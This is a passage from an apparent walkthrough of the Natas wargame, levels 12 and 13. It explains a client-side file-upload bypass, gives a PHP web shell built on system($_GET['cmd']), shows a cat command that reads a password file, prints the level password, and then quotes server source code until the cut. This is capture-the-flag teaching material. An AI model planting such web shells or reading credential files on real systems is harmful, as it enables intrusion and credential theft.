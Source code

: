 This is Unrestricted File Upload from client-side. We can change `.jpg` to `.php` in `<input>` of html, then upload `shell.php` file to execute some tasks.

```php
<?php // shell.php
$data = system($_GET["cmd"]);
echo $data;
?>  
```

After upload file, we can see:

```php
Notice: Undefined index: cmd in /var/www/natas/natas12/upload/tb0heduy1x.php on line 2

Warning: system(): Cannot execute a blank command in /var/www/natas/natas12/upload/tb0heduy1x.php on line 2
```

Add param into url `?cmd=cat /etc/natas_webpass/natas13`.

```
jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY
```

### natas13

```php
<? 

function genRandomString() {
    $length = 10;
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
    $string = "";    

    for ($p = 0; $p < $length; $p++) {
        $string .= $characters[mt_rand(0, strlen($characters)-1)];
    }

    return $string;
}

function makeRandomPath($dir, $ext) {
    do {
    $path = $dir."/".genRandomString().".".$ext;
    } while(file_exists($path));
    return $path;
}

function makeRandomPathFromFilename($dir, $fn) {
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}

if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);
    
    $err=$_FILES['uploadedfile']['error'];
    if($err){
        if($err === 2){
            echo "The uploaded file exceeds MAX_FILE_SIZE";
        } else{
            echo "Something went wrong :/";
        }
    } else if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
```